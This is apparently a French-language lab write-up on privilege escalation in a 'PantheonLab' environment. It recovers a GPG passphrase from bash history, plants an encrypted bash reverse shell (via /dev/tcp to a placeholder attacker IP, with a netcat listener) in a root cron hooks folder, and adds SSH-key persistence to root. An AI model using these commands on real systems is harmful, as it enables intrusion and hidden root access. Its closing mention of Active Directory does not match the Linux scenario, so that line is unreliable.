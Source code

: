 # Élévation de Privilèges

## Introduction

Cette section détaille les techniques d'élévation de privilèges utilisées dans l'environnement PantheonLab.

## Méthodes d'Élévation de Privilèges

### 1. Exploitation des Vulnérabilités Locales

Dans cet environnement, l'utilisateur `hera` dispose de droits suffisants pour exploiter un mécanisme d'élévation de privilèges automatisé.

#### Contexte

Un dossier `/opt/hooks` contient des scripts qui sont automatiquement exécutés par l'utilisateur `root` via une tâche cron toutes les minutes. Cependant, ces scripts sont chiffrés avec GPG, ce qui semble empêcher une modification directe.

#### Analyse du mécanisme

En listant le contenu de `/opt/hooks`, on remarque la présence de scripts chiffrés (extension `.gpg`). Un examen plus approfondi du système révèle que le mot de passe utilisé pour le chiffrement GPG est stocké en clair dans le fichier `~/.bash_history` de l'utilisateur `hera`.

```bash
cat ~/.bash_history
```

#### Exploitation

1. **Préparation de l'écoute sur la machine d'attaque** :
   Avant de déposer le script, il faut lancer un listener netcat sur sa propre machine pour recevoir la connexion :

   ```bash
   nc -lvnp <PORT>
   ```

2. **Création d'un reverse shell** :
   On commence par écrire un script bash qui ouvre un reverse shell vers notre machine d'attaque :

   ```bash
   bash -i >& /dev/tcp/<IP_ATTAQUANT>/<PORT> 0>&1
   ```

3. **Chiffrement du script** :
   On chiffre ce script avec GPG en utilisant le mot de passe récupéré :

   ```bash
   gpg --symmetric --passphrase <mot_de_passe> reverseshell.sh
   ```
   Cela génère un fichier `reverseshell.sh.gpg`.

4. **Dépôt dans /opt/hooks** :
   On place le fichier chiffré dans `/opt/hooks` :

   ```bash
   cp reverseshell.sh.gpg /opt/hooks/
   ```

5. **Attente de l'exécution** :
   Il suffit alors d'attendre une minute pour que la tâche cron exécutée par root déchiffre et lance le script, ouvrant ainsi un shell root sur la machine d'attaque.

#### Résumé

Ce scénario montre l'importance de ne jamais stocker de mots de passe sensibles en clair, et de bien contrôler les scripts exécutés automatiquement avec des privilèges élevés.

### 2. Techniques de Persistance

Après avoir obtenu un accès root, la méthode de persistance la plus simple et discrète consiste à ajouter sa propre clé publique SSH dans le fichier `~/.ssh/authorized_keys` de l'utilisateur root :

```bash
echo "<clé_publique>" >> /root/.ssh/authorized_keys
```

Cela permet de se reconnecter facilement en tant que root sans avoir besoin du mot de passe.

## Conclusion

L'élévation de privilèges est une étape cruciale dans l'exploitation d'un environnement Active Directory. 

